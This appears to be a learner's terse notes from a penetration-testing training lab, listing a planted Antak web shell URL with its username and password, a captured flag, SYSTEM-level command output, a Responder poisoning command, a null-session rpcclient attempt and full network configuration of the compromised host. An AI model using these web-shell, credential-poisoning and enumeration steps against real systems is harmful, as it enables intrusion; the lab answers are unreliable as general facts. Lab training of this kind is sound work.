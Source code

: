 ## LAB

http://10.129.208.65/uploads/antak.aspx
admin
My_W3bsH3ll_P@ssw0rd!

C:\Users\Administrator\Desktop\flag.txt
JusT_g3tt1ng_st@rt3d!

PS> whoami
nt authority\system

sudo responder -I tun0 

PS> hostname
WEB-WIN01

rpcclient -U "" -N $TARGET
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED

ipconfig /all


Windows IP Configuration

   Host Name . . . . . . . . . . . . : WEB-WIN01
   Primary Dns Suffix  . . . . . . . : INLANEFREIGHT.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : INLANEFREIGHT.LOCAL
                                       htb

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter #2
   Physical Address. . . . . . . . . : 00-50-56-B9-88-EA
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::c997:6738:a2ea:dc84%7(Preferred) 
   IPv4 Address. . . . . . . . . . . : 172.16.6.100(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.6.1
   DHCPv6 IAID . . . . . . . . . . . : 167792726
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2D-03-F0-45-00-50-56-B9-0A-8B
   DNS Servers . . . . . . . . . . . : 172.16.6.3
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-0A-8B
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::f4(Preferred) 
   Lease Obtained. . . . . . . . . . : Thursday, December 7, 2023 1:23:58 PM
   Lease Expires . . . . . . . . . . : Thursday, December 7, 2023 2:23:58 PM
   IPv6 Address. . . . . . . . . . . : dead:beef::d01f:5b81:e729:9ea(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::d01f:5b81:e729:9ea%3(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.129.223.204(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Thursday, December 7, 2023 1:24:01 PM
   Lease Expires . . . . . . . . . . : Thursday, December 7, 2023 2:23:57 PM
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:f362%3
                                       10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.129.0.1
   DHCPv6 IAID . . . . . . . . . . . : 100683862